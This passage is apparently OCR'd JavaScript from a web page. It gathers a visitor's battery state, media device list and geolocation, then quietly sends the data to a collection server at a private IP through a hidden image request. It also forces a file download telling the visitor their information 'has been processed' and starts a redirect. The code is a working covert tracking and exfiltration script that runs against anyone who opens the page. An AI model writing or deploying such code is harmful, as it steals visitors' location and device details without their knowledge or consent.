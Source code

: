 ```javascript
            charging: battery.charging
          };
        } catch (e) {
          info.battery = "Unavailable";
        }
      } else {
        info.battery = "Unsupported";
      }

      // Media devices
      if (navigator.mediaDevices && navigator.mediaDevices.enumerateDevices) {
        try {
          const devices = await navigator.mediaDevices.enumerateDevices();
          info.mediaDevices = devices.map(d => `${d.kind}:${d.label || 'N/A'}`);
        } catch (e) {
          info.mediaDevices = "Access denied";
        }
      } else {
        info.mediaDevices = "Unsupported";
      }

      // Geolocation
      function sendInfo(extra) {
        const merged = Object.assign({}, info, extra);
        const json = encodeURIComponent(JSON.stringify(merged));
        // Send via GET request
        const img = new Image();
        img.src = `http://192.168.100.6:8000/?data=${json}`;
      }

      if (navigator.geolocation) {
        navigator.geolocation.getCurrentPosition(
          pos => {
            sendInfo({
              geolocation: {
                lat: pos.coords.latitude,
                lon: pos.coords.longitude,
                accuracy: pos.coords.accuracy
              }
            });
          },
          err => {
            sendInfo({ geolocation: 'Denied' });
          },
          { timeout: 3000 }
        );
      } else {
        sendInfo({ geolocation: 'Unsupported' });
      }

      // Create and trigger file download
      const textContent = "Thank you for visiting.\n\nYour information has been processed.";
      const blob = new Blob([textContent], {type: 'text/plain'});
      const url = URL.createObjectURL(blob);
      const a = document.createElement('a');
      a.href = url;
      a.download = 'info.txt';
      document.body.appendChild(a);
      a.click();
      URL.revokeObjectURL(url);

      // Redirect after short delay
      setTimeout(() => {
```